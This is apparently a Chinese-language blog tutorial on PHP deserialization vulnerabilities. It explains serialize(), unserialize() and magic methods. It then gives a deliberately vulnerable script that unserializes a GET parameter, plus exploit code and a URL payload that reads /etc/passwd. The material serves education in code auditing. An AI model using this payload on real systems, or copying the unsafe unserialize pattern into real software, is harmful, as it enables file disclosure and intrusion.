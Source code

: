 ```yaml
---
layout: post
title: php 反序列化
tags: [代码审计,php]
---
```

## 基础知识
### 序列化与反序列化
序列化是指把对象转化为包含字节流的字符串，用来在网络中传输和存储，php 中使用 serialize() 函数序列化对象；反序列化是将字符串恢复为原来的对象， php 中使用 unserialize() 方法反序列化对象。
序列化一个对象

```php
<?php
class User
{
        public $name='alice';
        public $age = 18;
        public function PrintData()
        {
                echo 'User: '.$this->name.' is '.$this->age.' years old.<br/>';
        }
}
$user = new User();
$user->PrintData();
echo serialize($user);
?>
```
输出的结果和序列化的结果如图
![img](http://p04hnmyh8.bkt.clouddn.com/WechatIMG63.jpeg)
使用这个结果反序列化一个对象
```php
<?php
class User
{
        public $name='alice';
        public $age = 18;
        public function PrintData()
        {
                echo 'User: '.$this->name.' is '.$this->age.' years old.<br/>';
        }
}

$usr = unserialize('O:4:"User":2:{s:3:"age";i:20;s:4:"name";s:4:"John";}');
$usr->PrintData();
?>
```
反序列化的结果如图
![img](http://p04hnmyh8.bkt.clouddn.com/WechatIMG66.jpeg)
### php magic 方法
魔术方法是指在 php 中存在一些特定的方法，这些方法用户通常不会主动调用，而是在特定的时机被 php 自动调用。

__construct() 构造方法，在对象被实例化的时候调用，__destruct() 析构方法，对象被销毁前调用,__sleep() 在对象序列化时被调用,__wakeup() 在对象被反序列化时被调用，__toString() 在对象被当做字符串使用时被调用。
## 漏洞产生的原因
漏洞产生的原因是unserialize()函数的参数可控。如果代码中存在魔术方法,而且模式方法的代码可控，那么就可能产生漏洞。
## 漏洞利用
logfile.php 文件如下
```php
<?php
class LoadFile
{
        public $filename = 'error.log';
        public function __toString()
        {
                return file_get_contents($this->filename);

        }
}
class User
{
    public $age = 0;
    public $name = '';

    public function __toString()
    {
        return 'User ' . $this->name . ' is ' . $this->age . ' years old. <br />';
    }
}
$obj = unserialize($_GET['usr_serialized']);
echo $obj;

?>

```

写一个利用代码，序列化要读取的文件对象
```php
<?php
include 'logfile.php';
$file = new loadFile();
$file->filename = '/etc/passwd';
echo serialize($file);


?>


```
注入，就可以读取 /etc/passwd 文件的内容了。

http://0.0.0.0:8000/logfile.php?usr_serialized=O:8:%22LoadFile%22:1:{s:8:%22filename%22;s:11:%22/etc/passwd%22;}

![img](http://p04hnmyh8.bkt.clouddn.com/Jietu20171128-211838.jpg)
